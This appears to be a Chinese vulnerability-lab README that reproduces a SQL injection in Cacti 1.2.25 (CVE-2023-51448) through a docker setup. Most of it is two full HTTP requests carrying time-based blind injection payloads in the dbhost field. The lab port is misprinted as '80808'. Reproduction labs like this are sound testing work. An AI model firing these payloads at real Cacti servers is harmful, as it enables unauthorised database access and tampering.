


# Cacti SQL注入漏洞（CVE-2023-51448）

Cacti 是一个为全球用户提供强大且可扩展的运营监控和故障管理框架。它还是一个完整的网络绘图解决方案，旨在利用RRDTool的数据存储和绘图功能。Cacti 包括一个完全分布式和容错的数据收集框架、用于设备、图表和树的高级基于模板的自动化功能、多种数据采集方法、通过插件进行扩展的能力、基于角色的用户、组和域管理功能，此外还有一个主题引擎和多种语言支持，所有这些都是开箱即用的。Cacti pollers.php文件接口在SQL注入漏洞。攻击者可以通过构造恶意的SQL语句，成功注入并执行恶意数据库操作，可能导致敏感信息泄露、数据库被篡改或其他严重后果。

**影响版本**：1.2.25

**项目地址**：https://github.com/Cacti/cacti

参考链接：

- https://blog.csdn.net/shelter1234567/article/details/141336295
- https://github.com/Cacti/cacti/security/advisories/GHSA-vr3c-38wh-g855

## 漏洞环境

执行如下命令启动一个cacti-v1.2.25-web服务：

```
docker compose up 
```

服务启动后，访问`http://your-ip:80808/`即可跳转到到cacti安装向导界面。



点击开始下一步等待安装完成



## 漏洞复现

1.  使用admin/admin进入后台，进入[数据采集器](https://so.csdn.net/so/search?q=数据采集器&spm=1001.2101.3001.7020)页面（pollers.php）,查看源码获取__csrf_magic值

   

2. 发送如下请求包，进行sql盲注判断

   ```
   POST /pollers.php?header=false HTTP/1.1
   Host: 192.168.76.128:8080
   Accept: */*
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
   X-Requested-With: XMLHttpRequest
   Referer: http://192.168.76.128:8080/pollers.php?clear=1&
   Accept-Encoding: gzip, deflate, br
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: [yourcookie]
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 230
    
   __csrf_magic=[yourmagic]&name=Main+Poller&hostname=unknown&timezone=&notes=&processes=1&threads=1&id=2&save_component_poller=1&dbhost="XOR(if(now()=sysdate(),sleep(4),0))XOR"&action=save
   ```

   或者如下请求包

   ```
   POST /pollers.php?header=false HTTP/1.1
   Host: 192.168.76.128:8080
   Accept: */*
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
   X-Requested-With: XMLHttpRequest
   Referer: http://192.168.76.128:8080/pollers.php?clear=1&
   Accept-Encoding: gzip, deflate, br
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: CactiTimeZone=480; Cacti=b916ec1e58797bcfe864ccad55fc18a1; cacti_remembers=1%2C0%2Cd91e36164ef89e826e01c8ca07c4bcb6492a66848a0b6c73cff8f5b4ace752f9; CactiDateTime=Sun Aug 18 2024 20:52:33 GMT+0800 (中å½æ åæ¶é´)
   Connection: close
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 270
    
   __csrf_magic=sid:60616422313682591b714451a04204353c1b2403,1723985760&name=Main+Poller&hostname=unknown&timezone=&notes=&processes=1&threads=1&id=2&save_component_poller=1&dbhost=";%20select%20sleep(6);%20select%20*%20from%20poller%20where%201=1%20and%20"%"="&action=save
   ```

​	

